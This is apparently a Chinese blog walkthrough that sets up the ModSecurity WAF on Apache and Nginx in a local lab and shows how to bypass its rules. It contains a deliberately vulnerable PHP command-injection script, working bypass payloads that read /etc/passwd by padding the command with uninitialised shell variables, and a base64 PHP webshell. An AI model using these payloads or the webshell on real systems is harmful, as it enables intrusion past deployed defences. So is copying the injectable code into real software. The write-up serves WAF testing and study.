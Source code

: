 ```yaml
---
layout: about
category: about
Researchname:  Mod-Waf-Bypass-Walkthrough
toc: true
author: Bin4xin
permalink: /about/Mod-Waf-Bypass-Walkthrough/
---
```


# 「分享」ModsecWAF：老牌开源waf的绕过历程

## 零：连喊三声「WAF」

### 0x01 拿来WAF
依稀记得高中的一位物理老师的一段话，就拿这段话来开始吧；背景是当时刚学物理课程，很多人学会物理公式仅限于会用，他们在课堂上对我们的物理老师表达出了焦虑。
当然，研究生学历的物理老师对于这种学习上的困扰必然是经历过，然后提出了下面的观点，原话记不太清了，所以只能大概表述出意思：

>我知道你们现在有些迷茫，当然也是正常的。但是你们要想在某些领域上有所建树、突破，就要学会站在巨人的肩膀上看这个世界，鲁迅提出的拿来主义我觉得很适合用来学物理；
>**不管这些物理公式为什么是这样的、怎么得来的，先拿来用。**

「拿来主义」：
>是民国时期面对外来文化的冲击和中国封建时代遗留下来的文化，如何选择和取舍，于当时中国流行的闭关主义和全面西化的不同呼声；
>**鲁迅主张，既非被动地被“送去”，亦非不加分析地“拿来”，而是通过实用主义的观点选择性的“拿来”。**

所以我想：针对WAF也可以这样来学习，不知道WAF的工作原理没有关系，我们先把开源的WAF拿过来用，用了才知道WAF的优点、缺点；

同样的：只有用过之后，我们看到拦截日志后可以知道WAF的正则表达规则库，可以对WAF的工作方式有一些了解。

### 0x02 部署WAF

---

#### # Apache部署

[_进一步了解：APACHE中间件链接ModSec_](https://zhuanlan.zhihu.com/p/104931385){:target="_blank"}

没什么好说的，跟着教程一步步走基本上都能搞定。直接上部署成功的图：
![apache-modsec-waf.png](https://i.loli.net/2021/11/18/F3DUGveCgpkVqcl.png)
如上图，部署成功后可以看到访问`http://localhost?doc=/bin/ls`，WAF给出拦截操作，日志记录提示触发了`unix-shell.data`规则导致拦截返回403；

#### # Nginx部署

[_进一步了解：Nginx中间件链接ModSec_](https://zhuanlan.zhihu.com/p/80866123){:target="_blank"}


![nginx-modsec-waf.png](https://i.loli.net/2021/11/18/cpsgLRObd9BTDao.png)
同样的：访问`localhost:8011/?and 1=2--+`，触发WAF拦截规则返回403；需要注意的是：
- nginx版本，教程中推荐的1.9版本实际操作下来无法成功编译安装，这里推荐`nginx/1.13.8`
    * `wget http://nginx.org/download/nginx-1.13.8.tar.gz`
    
- 环境lib库安装：
    *  `sudo apt-get install openssl libssl-dev libpcre3 libpcre3-dev zlib1g-dev autoconf automake libtool gcc g++ make`

- [tips]以下四条命令的含义：
    * ```bash
    $ sed -ie 's/SecDefaultAction "phase:1,log,auditlog,pass"/#SecDefaultAction "phase:1,log,auditlog,pass"/g' crs-setup.conf
    $ sed -ie 's/SecDefaultAction "phase:2,log,auditlog,pass"/#SecDefaultAction "phase:2,log,auditlog,pass"/g' crs-setup.conf
    $ sed -ie 's/#.*SecDefaultAction "phase:1,log,auditlog,deny,status:403"/SecDefaultAction "phase:1,log,auditlog,deny,status:403"/g' crs-setup.conf
    $ sed -ie 's/# SecDefaultAction "phase:2,log,auditlog,deny,status:403"/SecDefaultAction "phase:2,log,auditlog,deny,status:403"/g' crs-setup.conf
    ```
    * 将下面查看`crs-setup.conf`文件输出中1、2行（下文2、3行）的内容注释，文件中5、6行（下文6、7行）取消注释； 
    ```bash
    cat crs-setup.conf|grep SecDefaultAction
    #SecDefaultAction "phase:1,log,auditlog,pass"
    #SecDefaultAction "phase:2,log,auditlog,pass"
    # SecDefaultAction "phase:1,nolog,auditlog,pass"
    # SecDefaultAction "phase:2,nolog,auditlog,pass"
    SecDefaultAction "phase:1,log,auditlog,deny,status:403"
    SecDefaultAction "phase:2,log,auditlog,deny,status:403"
    # SecDefaultAction "phase:1,log,auditlog,redirect:'http://%{request_headers.host}/',tag:'Host: %{request_headers.host}'"
    # SecDefaultAction "phase:2,log,auditlog,redirect:'http://%{request_headers.host}/',tag:'Host: %{request_headers.host}'"
    ```
其他根据教程往下走即可。

### 0x03 绕过WAF

#### # 未初始变量进行绕过
跟随大佬们的脚步走，使用简单的php代码进行WAF测试：
```php
<?php
        if(isset($_GET['host'])) {
        system('dig'.$_GET['host']);
        }
?>
```
如上代码尝试绕过WAF。我们知道终端执行`dig www.baidu.com;cat /etc/passwd`实际执行如下：
```bash
dig www.baidu.com;cat /etc/passwd

; <<>> DiG 9.10.6 <<>> www.baidu.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 27659
;; flags: qr rd; QUERY: 1, ANSWER: 3, AUTHORITY: 5, ADDITIONAL: 4
;; WARNING: recursion requested but not available
···
···
···
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
··
··
_oahd:*:441:441:OAH Daemon:/var/empty:/usr/bin/false
```
在终端下相同作用的链接符号还有`&&`；

直接传参`www.baidu.com;cat+/etc/passwd`注入明显的攻击行为直接返回403，查看日志匹配到以下特征：
- 1、`"Operator Rx' with parameter ^[\d.:]+$' against variable`，存在运算符；
- 2、`Operator PmFromFile' with parameter lfi-os-files.data'`，正则匹配到lfi-os-files的规则库；
- 3、`characters omitted`，特殊字符；
- 4、`"Operator PmFromFile' with parameter unix-shell.data'`，正则匹配到unix-shell的规则库；
- 5、`Operator Ge' with parameter 5'`，同样为存在运算符。
所以根据以上特征进行规则探测并注入fuzz：


---

- `+$u+cat+/$uetc/$upasswd$u`
- `+$ucat+$u/etc$u/passwd`
以上都返回200，但是没有回显，说明命令写的不对；

实际测试`/etc`、`/passwd`和特殊字符等不能单独出现，所以使用未初始变量`$u`包住后进行注入；
下面是实际生效的payload：
- `+$u+cat+/etc$u/passwd$u`
- `+$u+cat+$u/etc$u/passwd`
![waf-bypass-exec-command.png](https://i.loli.net/2021/11/18/FZQOLd6txseIgRu.png)


## 一：编写poc脚本连接器

通过以上绕过首发即可执行任意代码，我们可以直接写入一句话木马，但是这不是本段的重点；

本段的重点是通过实际测试发现base64编码后可以完美绕过waf，所以可以直接写入一个base64的马，然后连接，实际上就是解决实现一个webshell连接器，实现
功能类似一个蚁剑的cmd连接功能；这样以来WAF就形同虚设了。
webshell代码：
```php
<?php system(base64_decode($_GET['CMD']));?>
```
- GET/POST请求传入cmd
- base64加密参数内容
- 类似终端执行代码
实现效果如下：
![waf-bypass-shell.png](https://i.loli.net/2021/11/18/OtD5wZ6Hafyd8TJ.jpg)
参考的是[@IppSec]的代码，简单修改了部分。
[参考代码](https://github.com/IppSec/forward-shell/blob/master/forward-shell.py){:target="_blank"}

---

以上